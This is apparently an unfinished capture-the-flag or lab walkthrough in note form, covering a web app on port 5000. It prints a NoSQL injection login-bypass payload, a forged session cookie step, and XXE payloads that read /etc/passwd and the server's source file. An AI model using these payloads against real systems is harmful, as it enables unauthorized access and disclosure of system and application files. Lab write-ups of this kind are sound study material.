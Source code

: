#Incomplete
![[Pasted image 20250426164013.png]]

[[nmap]] reports a port 5000 open with a web page running where we found a login section.

![[Pasted image 20250426164101.png]]

Use [[NoSQL Injection]] to bypass the authentication in [[Burpsuite]]

```json
{"user": "admin", "password": { "$ne": "pass" } }
```

change the `Content-type` to `application/json` and send that content and you see in the response the app wants set a cookie called `auth`

![[Pasted image 20250426164802.png]]

Create that cookie with that content on the browser and you see new content.

![[Pasted image 20250426164911.png]]

those buttons were not.

if we try upload a file the web app say us need have this [[xml]] format:

```xml
<post><title>Example Post</title><description>Example Description</description><markdown>Example Markdown</markdown></post>
```

so we can try event [[XML External Entity (XXE)]] with the next payload:

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<post><title>Example Post</title><description>Example Description</description><markdown>&file;</markdown></post>
```

![[Pasted image 20250426170142.png]]

we can read `/etc/passwd`, now we can try read the file are running the webpage.

```xml
<!DOCTYPE data [
	<!ENTITY file SYSTEM "file:///opt/blog/server.js">
]
```

and we got the content.

![[Pasted image 20250426171048.png]]